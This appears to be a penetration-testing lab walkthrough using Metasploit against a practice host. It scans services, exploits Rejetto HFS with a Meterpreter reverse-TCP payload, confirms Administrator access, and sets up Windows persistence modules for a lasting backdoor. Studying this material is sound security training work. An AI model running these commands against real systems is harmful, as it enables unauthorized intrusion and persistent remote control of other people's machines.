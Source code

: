 `-sV`: Perform a service scan.

```
db_nmap -sV 10.2.19.11
```

```
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST eth1
exploit
```

Perform some system enumeration.

```
meterpreter > sysinfo
```

Get our current user privileges. We currently have access as the Administrator user, which is very important. Because in order to set up persistence, you will require elevated privileges or administrative privileges.

```
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

Now that we've gained access to the target system, what we need to do is ensure that we can always get access to the target system without having to exploit the vulnerable service. Because we have to assume that at some point, that service will either be shut down or will be disabled or it will be patched. So we cannot rely on a vulnerable services in regards to gaining access. Once we've gained access to a system, we've got our lucky break, so we need to use that access very wisely.

Put this in the background.

```
search platform:windows persistence
```

In the case of the standard persistence module here. This will establish persistence via the Windows Registry. But you cannot rely on that. And that will allow you to gain access to the target system whenever it's restarted. That's something that we cannot rely on. We want something that is constantly running and that can provide us with access whenever we want to gain access.

```
exploit/windows/local/persistence Windows Persistent Registry Startup Payload Installer
```

The `persistence_service` module will create a persistent service that will be paired with the Meterpreter payload. And whenever we have a listener or a multi handler up and running, we should be able to receive a connection from the target. This is the Windows Persistent Service Installer.

```
use exploit/windows/local/persistence_service
set payload windows/x64/meterpreter/reverse_tcp
show options
```
